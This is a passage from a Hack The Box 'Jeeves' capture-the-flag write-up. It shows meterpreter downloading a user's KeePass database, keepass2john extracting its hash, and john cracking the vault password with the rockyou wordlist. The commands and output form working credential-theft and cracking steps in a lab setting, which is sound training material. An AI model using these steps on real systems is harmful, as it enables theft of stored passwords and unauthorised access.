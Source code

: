 ### Method 2: Crack Keepass Database to Pass-the-hash

If you searched through the user `kohsuke` documents directory you would discover a file called `CEH.kbdx`. Normally the `.kbdx` file extension is associated with the [KeePass Password Safe](https://keepass.info/). If we can crack the password on this vault file, we will likely find credentials to potentially the local administrator account. 

_Downloading the Keepass Database file with meterpreter_
```
meterpreter > cd Documents
meterpreter > dir
Listing: C:\Users\kohsuke\Documents
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  2846  fil   2017-09-18 13:43:17 -0400  CEH.kdbx
40777/rwxrwxrwx   0     dir   2017-11-03 22:50:40 -0400  My Music
40777/rwxrwxrwx   0     dir   2017-11-03 22:50:40 -0400  My Pictures
40777/rwxrwxrwx   0     dir   2017-11-03 22:50:40 -0400  My Videos
100666/rw-rw-rw-  402   fil   2017-11-03 23:15:51 -0400  desktop.ini

meterpreter > download CEH.kdbx
[*] Downloading: CEH.kdbx -> CEH.kdbx
[*] Downloaded 2.78 KiB of 2.78 KiB (100.0%): CEH.kdbx -> CEH.kdbx
[*] download   : CEH.kdbx -> CEH.kdbx
meterpreter >
```
_verifying the downloaded file_
```
root@dastinia:~/htb/jeeves# file CEH.kdbx
CEH.kdbx: Keepass password database 2.x KDBX
```

Before we can crack the `CEH.kbdx` we need to convert it to a format that either `john` or `hashcat` can understand. We can use the tool `keepass2john` (comes preinstalled on kali) to do this.


```
root@dastinia:~/htb/jeeves# keepass2john CEH.kdbx
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
root@dastinia:~/htb/jeeves# keepass2john CEH.kdbx > CEH.hash
```

_cracking the hash & getting the password of the vault with john_
```
root@dastinia:~/htb/jeeves# john --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:02 DONE (2018-05-16 23:54) 0.01601g/s 880.4p/s 880.4c/s 880.4C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
